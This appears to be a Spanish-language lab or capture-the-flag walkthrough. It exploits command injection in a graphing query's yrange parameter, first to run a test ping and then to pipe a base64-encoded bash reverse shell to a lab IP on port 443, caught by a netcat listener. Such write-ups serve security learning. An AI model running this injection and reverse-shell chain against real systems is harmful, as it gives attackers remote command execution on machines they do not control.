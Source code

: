 ```python
python2 redirect.py -p 80 "http://localhost:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:http.stats.web.hits&o=&ylabel=&xrange=10:10&yrange=[33:system('ping+-c+1+10.10.14.48')]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json"
```

![](2022-06-12-12-16-35.png)

Conseguimos que nos devuelva el ping. Lo tenemos que ver desde tcpdump

![](2022-06-12-12-28-14.png)



## oneliner bash
```bash
#nuestra ip
# el puerto que queramos
echo "bash -c 'bash -i >& /dev/tcp/10.10.14.48/443 0>&1'" | base64


> resultado --> YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40OC80NDMgMD4mMScK


A la cadena en base 64 que recibimos la usamos de la siguiente forma

# ponemos en escucha una terminal 
n -nlvp 443

#Si la cadena lo decodeamos y le decimos que luego utilice bash recibimos una consola de bash

echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40OC80NDMgMD4mMScK | base64 -d

>resultado --> bash -c 'bash -i >& /dev/tcp/10.10.14.48/443 0>&1'

# Si además decimos que lo ejecute como bash
echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40OC80NDMgMD4mMScK | base64 -d | bash
```
![](2022-06-12-18-28-48.png)
